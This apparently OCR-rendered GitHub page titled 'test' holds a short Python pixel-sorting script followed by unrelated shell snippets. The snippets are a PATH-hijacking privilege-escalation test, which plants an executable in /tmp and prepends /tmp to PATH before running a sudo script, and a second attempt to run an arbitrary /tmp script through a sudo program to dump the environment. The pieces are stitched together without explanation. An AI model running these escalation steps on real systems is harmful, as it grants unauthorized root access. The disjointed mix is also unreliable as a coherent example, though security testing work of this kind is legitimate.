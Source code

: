 # test

from PIL import Image
import numpy as np

# Load image
img = Image.open("image.png").convert("RGB")
pixels = np.array(img)
h, w, _ = pixels.shape

# Flatten and sort by brightness or any channel
flattened = pixels.reshape(-1, 3)
sorted_pixels = sorted(flattened, key=lambda x: sum(x))  # sort by total intensity

# Reshape back to image shape
sorted_img = np.array(sorted_pixels).reshape(h, w, 3)

# Save
Image.fromarray(sorted_img.astype(np.uint8)).save("sorted_output.png")


echo '#!/bin/bash' > /tmp/service
echo 'echo "PATH Exploit Worked: $0" > /tmp/path_test' >> /tmp/service
chmod +x /tmp/service
export PATH=/tmp:$PATH
sudo /home/<your-username>/script.sh start
cat /tmp/path_test


sudo /home/enable_histor stop
echo 'pwd; env' > /tmp/debug.sh
chmod +x /tmp/debug.sh
sudo /home/enable_histor start /tmp/debug.sh 2> /tmp/debug_errors.txt
cat /tmp/debug_errors.txt
cat /tmp/debug.sh
